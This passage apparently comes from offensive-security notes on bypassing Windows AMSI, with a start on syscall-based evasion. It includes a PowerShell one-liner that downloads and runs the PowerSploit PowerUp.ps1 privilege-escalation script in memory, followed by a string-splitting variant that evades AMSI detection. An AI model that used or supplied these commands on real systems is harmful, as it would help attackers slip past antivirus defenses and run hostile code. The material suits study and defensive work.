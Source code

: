 ```c 
}
```

## Bypass Anti-malware Scan Interface

A collection of Windows APIs known as AMSI allow integration any application with an antivirus product (assuming that product functions as AMSI provider) i.e. Windows Defender functions as AMSI provider as numerous third-party antivirus solutions.

AMSI functions as intermediary that connects application and antivirus engine. I.E Powershell :
1. before execution powershell send code that user want to execute to AMSI 
2. AMSI generate report if antivirus engine state content as malicious preventing powershell from executing it 

This resolve issue of script-based malware that operates exclusively in memory and never go to disk 

To provied AMSI instance application is required to load **amsi.dll** into its address space and invoke sequence of amsi APIs. By tying powershell to a tool such as APIMonitor we can observe which APIs it invokes.

### Example 

Two predominant techniques are employed for bypassing AMSI are obfuscation and patchin amsi.dll module in memory. Here we will try first option :

i.e. if we want to run :

```powershell 
iex ((New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1"))
```

We will get an error with `ScriptContainedMaliciousContent` .

But as AMSI use a string-based  detection approach, we can evade it by avoiding direct usage of prohibited string with a string division technique by doing something like :

```powershell 
$bad = "iex ((New-Object System.Net.WebClient).DownloadSt" + "ring('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit'" + "'/master/Privesc/PowerUp.ps1'))"

$bad
```

This approach is widely used in context of obfuscation.

## Advanced evasion techniques

### Syscalls 

**Windows syscalls** let programs talk to OS and ask for specific services like reading/writing to file etc.
When call to WinAPI function, syscalls are APIs that run the task i.e when using VirtualAlloc WINApi calls are called, **NtAllocateVirtualMemory** starts running. Syscall sends user-supplied args from previous function call to windows kernel, does what was asked for, sends result back to program.
